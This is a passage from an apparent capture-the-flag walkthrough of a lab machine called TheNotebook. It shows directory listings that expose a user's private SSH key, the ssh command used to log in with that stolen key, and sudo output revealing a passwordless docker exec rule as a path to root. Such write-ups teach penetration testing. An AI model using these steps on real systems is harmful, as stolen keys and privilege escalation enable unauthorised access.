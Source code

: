 ``` 
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
total 32
drwxr-xr-x 5 nuxad nuxad 4096 Feb 17 04:02 .
drwxr-xr-x 3 nuxad nuxad 4096 Feb 12 01:24 ..
-rw-r--r-- 1 nuxad nuxad  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 nuxad nuxad 3771 Apr  4  2018 .bashrc
drwx------ 2 nuxad nuxad 4096 Feb 16 05:47 .cache
drwx------ 3 nuxad nuxad 4096 Feb 12 01:25 .gnupg
-rw-r--r-- 1 nuxad nuxad  807 Apr  4  2018 .profile
drwx------ 2 nuxad nuxad 4096 Feb 17 03:59 .ssh
total 20
drwx------ 2 nuxad nuxad 4096 Feb 17 03:59 .
drwxr-xr-x 5 nuxad nuxad 4096 Feb 17 04:02 ..
-rw-r--r-- 1 nuxad nuxad  398 Feb 17 03:59 authorized_keys
-rw------- 1 nuxad nuxad 1679 Feb 17 03:59 id_rsa
-rw-r--r-- 1 nuxad nuxad  398 Feb 17 03:59 id_rsa.pub

```
<br>So, we found a private ssh key. Now we can ssh with user noah. <br>


## shell as noah

```
ssh noah@10.10.10.230 -i id_rsa
```
<br>![](/assets/images/0x41ly-blog-img/thenotebook/14.png)<br>

<br>Time for root and the first thing to see is :<br>
```
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```
